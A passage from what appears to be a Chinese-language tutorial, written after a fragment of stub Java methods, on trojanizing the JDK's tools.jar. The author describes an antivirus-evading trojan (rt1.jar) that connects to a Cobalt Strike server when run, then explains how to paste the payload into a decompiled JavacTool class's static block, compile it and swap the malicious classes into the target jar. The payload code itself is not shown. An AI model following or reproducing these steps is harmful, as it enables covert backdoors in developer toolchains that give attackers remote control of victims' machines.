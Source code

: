 	    @Override
	    public CompilationTask getTask(Writer out, JavaFileManager fileManager, DiagnosticListener<? super JavaFileObject> diagnosticListener, Iterable<String> options, Iterable<String> classes, Iterable<? extends JavaFileObject> compilationUnits) {
	        return null;
	    }
	
	    @Override
	    public StandardJavaFileManager getStandardFileManager(DiagnosticListener<? super JavaFileObject> diagnosticListener, Locale locale, Charset charset) {
	        return null;
	    }
	
	    @Override
	    public int isSupportedOption(String option) {
	        return 0;
	    }
	
	    @Override
	    public int run(InputStream in, OutputStream out, OutputStream err, String... arguments) {
	        return 0;
	    }
	
	    @Override
	    public Set<SourceVersion> getSourceVersions() {
	        return null;
	    }
	}

这里的rt1.jar 是我制作的恶意免杀马，执行即上线cs，用于测试，后面我会将这个jar和目标jar合并成一个新的jar。

运行Main.java，cs上线。

这次我将rt1.java的执行jar名称替换成目标jar名称，同时利用IDEA打开tools.jar，将反编译的 JavacTool.class 全部代码拷贝出来，放到demo项目目录下```com.sun.tools.javac.api```的JavacTool.java，将上面调试成功的静态代码块内容塞到这个类里。

将这个JavacTool.java文件拷贝出来，用javac编译，```javac JavacTool.java```，可能提示有警告，这时使用 ```javac -Xlint:unchecked JavacTool.java``` 忽略警告编译，可能生成多个带```$```符号的class文件，表示源文件使用了匿名内部类。[java $.class_java文件编译后额外生成的$1.class是怎么一回事](https://blog.csdn.net/weixin_36078306/article/details/114043130)

## How to inject evil classes into jar

这个时候注意将编译好的class注入目标jar，无需解压整个jar包，只解压需要替换的class即可。

例如，将这三个class放到tools.jar同级目录，

	-rw-r--r-- 1 root root     1623  8月  9 19:09 'JavacTool$1.class'
	-rw-r--r-- 1 root root     1184  8月  9 19:09 'JavacTool$2.class'
	-rw-r--r-- 1 root root     8991  8月  9 19:09  JavacTool.class

### 查询需要替换的文件在jar中的位置

	jar tvf tools.jar|grep JavacTool

![](images/2.png)
